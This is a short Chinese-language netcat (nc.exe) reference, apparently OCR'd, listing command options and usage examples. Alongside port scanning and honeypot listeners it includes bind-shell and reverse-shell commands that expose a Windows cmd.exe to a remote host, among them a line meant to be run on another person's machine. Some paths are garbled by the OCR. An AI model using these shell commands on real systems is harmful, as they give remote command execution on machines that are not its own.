 系统外部命令

注：系统外部命令(均需下载相关工具)

瑞士军刀：nc.exe

参数说明：

-h 查看帮助信息

-d 后台模式

-e prog程序重定向，一但连接就执行[危险]

-i secs延时的间隔

-l 监听模式，用于入站连接

-L 监听模式，连接天闭后仍然继续监听，直到CTR+C

-n IP地址，不能用域名

-o film记录16进制的传输

-p[空格]端口 本地端口号

-r 随机本地及远程端口

-t 使用Telnet交互方式

-u UDP模式

-v 详细输出，用-vv将更详细

-w数字 timeout延时间隔

-z 将输入，输出关掉（用于扫锚时）

基本用法：

nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口

nc -l -p 80 开启本机的TCP 80端口并监听

nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口

nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口

nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口

高级用法：

nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止

nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt

nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用

type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用

本机上用：nc -l -p 本机端口

在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
